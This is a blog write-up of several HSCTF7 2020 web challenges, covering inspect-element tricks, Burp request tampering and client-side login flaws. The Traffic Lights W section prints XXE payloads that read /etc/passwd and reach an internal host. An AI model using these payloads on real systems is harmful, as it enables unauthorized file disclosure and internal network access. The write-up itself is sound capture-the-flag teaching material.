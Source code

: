 ```yaml
---
layout: post
published: true
title: "HSCTF7 2020 Writeup | Web"
date: 2020-06-06 13:32:20 +0300
description: HSCTH 7 Writeup | Blurry Eyes,Debt Simulator,Inspector Gadget,Broken Tokens,Traffic Lights W
excerpt: "HSCTF 2020 writeups for web catagory."
image: "/images/hsctf/logos.png"
sitemap:
    priority: 0.8
---
```


<style>
img {
  width: 90%;
}
</style>
These are all the writeup of web challenges in HSCTF7.<br />
## Blurry Eyes
---
>I can't see :( 
 https://blurry-eyes.web.hsctf.com

![HSCTF]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/hsctf/hsctf1_1.png)


The webpage contain information about CTF's. But there is a flag in the bottom which seems blurred!!
The source page also does not have anything interesting, moving to inspect element.

![HSCTF]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/hsctf/hsctf1_2.png)


Deleting the name blur from the span tag shows the flag.

![HSCTF]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/hsctf/hsctf1_3.png)

Also, you can get the flag by clicking on the "span class="poefKuKjNPojzLDf" as this class stores the flag in the css file.


![HSCTF]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/hsctf/hsctf1_4.png)


``` Flag- flag{glasses_are_useful} ```

## Debt Simulator
---
>https://debt-simulator.web.hsctf.com/

The webpage shows a strange game which says "Very Realistic" as everytime we lose in the game.


![HSCTF]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/hsctf/hsctf2_1.png)


Moving to source page didn't showed anything interesting so intercepting request using Burp Suite.


![HSCTF]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/hsctf/hsctf2_2.png)

It seems that it is calling some function everytime we create a move in the game.<br>Now we need to find out or guess the correct function to display the flag. Now again searching the .js files in the source code gives a link "https://debt-simulator-login-backend.web.hsctf.com/yolo_0000000000001" from where it is fetching the function.

![HSCTF]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/hsctf/hsctf2_3.png)

Opening the link gives us all the three functions that the site is calling.

![HSCTF]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/hsctf/hsctf2_4.png)

Replacing the function in the burp by "getgetgetgetgetgetgetgetgetFlag" gives us the flag..


![HSCTF]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/hsctf/hsctf2_5.png)


```Flag- flag{y0u_f0uND_m3333333_123123123555554322221} ```


## Inspector Gadget
---
>https://inspector-gadget.web.hsctf.com/

This was the easiest as opening the source code directly gives us the flag.

![HSCTF]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/hsctf/hsctf3_1.png)


```Flag- flag{n1ce_j0b_0p3n1nG_th3_1nsp3ct0r_g4dg3t} ```

<!--
##  Broken Tokens
---
>I made a login page, is it really secure?
  https://broken-tokens.web.hsctf.com/
  Note: If you receive an "Internal Server Error" (HTTP Status Code 500), that means that your cookie is incorrect.


![HSCTF]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/hsctf/hsctf1_3.png)


![HSCTF]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/hsctf/hsctf1_3.png)


Decoding the Vigenere Cipher using this online [tool](https://www.boxentriq.com/code-breaking/vigenere-cipher) 
<br />

![HSCTF]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/hsctf/hsctf1_3.png)



![HSCTF]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/hsctf/hsctf1_3.png)


``` Flag- ```                 -->

##  Traffic Lights W
---
>Can you figure out what's going on with this shady company?
    https://traffic-light-w.web.hsctf.com/
 

![HSCTF]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/hsctf/hsctf5_1.png)

This challange is simply XXE vulnerable if we move to upload firmware option there it asks to upload an XML.
A example file is also given as :
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<root>
  <content>Red</content>
</root>
```

![HSCTF]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/hsctf/hsctf5_2.png)

I tried to upload an XXE payload to check if it is vulnerable.
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<root>
  <content>&xxe;</content>
</root>
```

![HSCTF]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/hsctf/hsctf5_3.png)

The website seems XXE(XML External Entity) vulnerable.

now we need it to display the flag.On the homepage it shows some docker hostname in which only two are active.

![HSCTF]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/hsctf/hsctf5_3_1.png)

Using the hostname "traffic-light-1001" in our xml payload shows noting then using "traffic-light-1004" as :
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://traffic-light-1004"> ]>
<root>
  <content>&xxe;</content>
</root>
```

![HSCTF]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/hsctf/hsctf5_4.png)

This payload works and gives us the flag..

![HSCTF]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/hsctf/hsctf5_5.png)


``` Flag- flag{shh_im_mining_bitcoin} ```

##  Very Safe Login
---
>Bet you can't log in.
 https://very-safe-login.web.hsctf.com/very-safe-login

The page shows the login page, opening the source code shows the function used logging in the form.
![HSCTF]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/hsctf/hsctf6_1.png)

Logging in using the username and password given gives the flag.

![HSCTF]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/hsctf/hsctf6_2.png)


``` Flag- flag{cl13nt_51de_5uck5_135313531} ```


<br>
<br>

<i>Thanks for your patience,I hope you enjoyed reading. Happy Hacking... </i>
